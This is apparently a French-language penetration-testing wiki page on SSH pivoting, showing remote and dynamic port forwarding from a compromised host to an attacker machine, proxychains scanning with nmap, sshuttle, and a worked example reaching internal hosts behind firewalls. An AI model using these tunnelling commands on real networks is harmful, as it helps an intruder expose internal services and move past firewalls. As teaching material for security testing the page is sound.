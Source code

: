 ```yaml
---
title: Proxy SSH
permalink: /Proxy_SSH/
---
```


Remote Port Forwarding with SSH
-------------------------------

On a compromis l'ĥôte 10.3.3.99 et on cherche à créer un tunnel SSH avec l'attaquant 192.168.30.229. Il suffit de lancer la commande suivante sur 10.3.3.99

``` bash
ssh -f -N -p 80 192.168.30.229 -R 8080:10.3.3.99:80
```

Ceci permettra à l'attaquant d'accéder 10.3.3.99:80 en accédant à localhost:8080.

La commande générique est:

``` bash
ssh -f -N -p <authorized port> <attacker ip> -R <port to bind on attacker>:<target ip>:<target port>
```

Dynamic Port Forwarding with SSH
--------------------------------

Ceci permet se mettre un *dynamic port forwarding* vers 192.168.31.251:

``` bash
ssh -f -N -D 8888 root@192.168.31.251
```

La commande générique est:

``` bash
ssh -f -N -D <local proxy port> <target>
```

On peut ensuite utiliser localhost:8888 en tant que proxy SOCKS (avec proxychains ou le navigateur web).

Outils
------

### Proxychains

Utiliser [Proxychains-NG](https://github.com/rofl0r/proxychains-ng) avec nmap. Il est nécessaire de faire des *Full Connect Scan*:

``` bash
proxychains nmap -sT -F -sV -A -O -PN 10.1.1.246
```

### SSHuttle

L'outil [sshuttle](https://github.com/apenwarr/sshuttle), permet de mettre facilement en place un tunnel SSH:

``` bash
./sshuttle -r sean@192.168.31.251 10.0.0.0/8 -vv
```

### Autres

[EgressBuster](https://github.com/trustedsec/egressbuster)

Exemple Complet
---------------

We want to access 10.3.3.99 on port 80 with firefox. On cherche a accéder à 10.3.3.99:80 avec firefox.

Le réseau est le suivant:

``` bash
Attacker [192.168.30.229]
Firewall [192.168.31.251]

Sean-Desktop [10.1.1.246]
Firewall [10.1.1.251]

Bill [10.3.3.44]
Jim [10.3.3.99]
```

On utilise **sshuttle** pour accéder au réseau 10.1.1.0/24

``` bash
~/utils/sshuttle -r sean@192.168.31.251 10.1.1.0/24 -vv
```

Ensuite on compromet Bill et on met en place un remote port forwarding jusqu'à l'attaquant pour pouvoir accéder au port 22 sur Bill depuis la machine de l'attaquant:

``` bash
ssh -f -N -R 2222:127.0.0.1:22 -p 80 root@192.168.30.229
```

On mets ensuite en place un *dynamic port forwarding*:

``` bash
ssh -f -N -D 8080 -p2222 bill@127.0.0.1
```

On peut ensuite configurer iceweasel pour utiliser localhost:8080 comme proxy SOCKS.

Resources
---------

-   [Dynamic Port Forwarding](http://netsec.ws/?p=278)

[Category:Méthodologies](/Category:Méthodologies "wikilink")